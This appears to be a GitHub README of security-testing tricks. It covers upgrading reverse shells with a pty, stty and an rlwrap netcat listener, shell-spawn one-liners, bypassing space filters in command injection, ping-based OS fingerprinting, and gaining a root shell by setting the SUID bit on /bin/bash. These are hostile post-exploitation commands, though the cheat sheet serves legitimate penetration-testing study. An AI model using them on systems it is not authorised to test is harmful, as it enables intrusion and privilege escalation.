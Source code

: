 # Here you can find some tricks I learned over the years of doing security work


## Python one line import
Python allows one line imports with the \_\_import\_\_ method. This can be used to run module code in one line to bypass restrictions. 
```py
__import__('some_module').some_function()
```

## Upgrade Reverse Shell with Python
When catching a reverse shell it's often just a primitive shell, that does not allow tab completion, ctrl-c or clear functionality.
Upgrading a primitive shell can solve these issues. First you need to spawn a proper pseudoterminal that acts like a normal terminal. 
This can be done via python with:
```bash
python -c "import pty; pty.spawn('/bin/bash')" # Spawn pseudo tty 
```
This allows you to interact with everything like you would with a normal terminal.
No we disable the echo so that our commands are not displayed twice and enable raw tty to pass commands like ctrl-c straight through to our pseudo terminal with:
```bash
# Press ctrl-z to background the reverse shell
stty -echo raw;fg # Run this in your terminal not. (If you run zsh the ;fg is needed otherwise it can be done in two commands)
# You might need to press enter one or two times
export TERM=xterm # Run in the pseudo terminal again to allow clear command
```

## Upgrading Shell without Python ([SRC](https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet))
```
/usr/bin/script -qc /bin/bash /dev/null
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
echo os.system('/bin/bash')
/bin/sh -i
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

## Upgrading a Windows Shell
Upgrading a windows shell is really hard. Possible ways are using a socat binary, a meterpreter shell or the following crude way using `rlwrap`:
```bash
rlwrap nc -lvnp <PORT>
```
When the reverseshell connects, it is partially interactive. It allows to use the arrows keys to edit the line and recall the command history.
Although this is a upgrade to a crude shell it still lacks some interactivity such as being able to CTRL-C a running program. 

## Infinite Ping
On linux machines doing a ping results in a infinite running command. 
Thus pinging to check for command injection should be done with a max number of pings:
```bash
ping -c 5
```

## OS Fingerprinting with Ping
Different operating system have different inital TTL values when responding to a ping and thus can be fingerprinted:
```bash
ping -c 5 some_ip
# Linux TTL: Around 64
# Windows TTL Around 128
```

## Temporary Files
The `/dev/shm` 'directory' in Linux is a tempfs. The files placed in there are living in RAM only and thus are deleted with each reboot.
This makes it fast to write to and read from. 

## SSH Port Forwarding after connecting
When enabling `EnableEscapeCommandline` in your SSH config it is possible to use `~C` to change the SSH connection parameters allowing
to enable port forwarding and more. [See here](https://man.openbsd.org/ssh_config#EnableEscapeCommandline)

## Restriction Space Restrictions
If you are restricted of using spaces in your command inputs you might be able to bypass it with the following methods:
```bash
# 1. bash curly brace expansion
{echo,test} == echo test
# 2. IFS Variable
echo${IFS}test == echo test
```

## Fast root shell
If you only have restricted command injection as root you can try to change the permissions of /bin/bash to have the suid bit set, if you are already on the system
with another user.
```bash
chmod u+s /bin/bash
/bin/bash -p # as the other user
```

